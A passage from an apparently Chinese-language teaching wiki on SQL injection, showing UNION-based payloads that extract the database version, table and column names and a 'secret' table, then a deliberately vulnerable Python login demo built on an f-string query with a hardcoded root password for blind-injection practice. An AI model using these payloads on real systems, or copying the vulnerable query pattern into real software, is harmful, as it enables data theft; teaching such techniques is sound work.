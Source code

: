 可以看到，实际执行的语句为

```sql
SELECT * FROM users WHERE username = '123' UNION SELECT 1, 2;#'
```

也就是说，在这个 demo 中，从数据库查询的内容会直接返回给用户，用户可以直接看到查询的内容

那我们是否可以进行一些其他的查询呢

构造语句 `123' UNION SELECT DATABASE(), @@version;#`

![](https://pic-hdu-cs-wiki-1307923872.cos.ap-shanghai.myqcloud.com/boxcnDeDp5yPE7W4KX9ByBl9ovh.png)

我们就能看到返回中包含了当前数据库名与当前数据库版本

如果数据库中除了 `users` 表还有其他的东西，我们是否能通过这个注入来获取呢...

构造语句 `123' UNION SELECT table_name, column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE();#`

> `information_schema` 库是一个 MySQL 内置数据库，储存了数据库中的一些基本信息，比如数据库名，表名，列名等一系列关键数据，SQL 注入中可以查询该库来获取数据库中的敏感信息。

![](https://pic-hdu-cs-wiki-1307923872.cos.ap-shanghai.myqcloud.com/boxcnkwvSnhKBhlHNLOSthgul9d.png)

我们可以发现，当前数据库中还存在一张叫 `secret` 的表，让我们偷看一下里面存的是什么

构造语句 `123' UNION SELECT 1, secret_string FROM secret;#`

![](https://pic-hdu-cs-wiki-1307923872.cos.ap-shanghai.myqcloud.com/boxcn3kfhJ79ByNML2Z1Q1MwRye.png)

好像得到了什么不得了的秘密 :-)

### 无回显的 SQL 盲注

#### 布尔盲注

我们对有回显的 SQL 注入的 demo 进行一点修改，代码如下

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

from sqlalchemy import create_engine
from hashlib import sha256

engine = create_engine("mysql+pymysql://root:TjsDgwGPz5ANbJUU@127.0.0.1:3305/sqli", max_overflow=5)

def query(username, password):
    with engine.connect() as con:
        query_exec = f"SELECT password FROM users WHERE username = '{username}'"
        print(query_exec)
        if con.execute(query_exec).scalar():
            passhash = con.execute(query_exec).fetchone()[0]
            return passhash == sha256(password.encode()).hexdigest()
        return False

def main():
    username = input("Give me your username: ")
    password = input("Give me your password: ")
    print("Login success" if query(username, password) else "Login failed")
    # 不再显示查询结果，而返回 success 或 failed

if __name__ == "__main__":
    main()
```
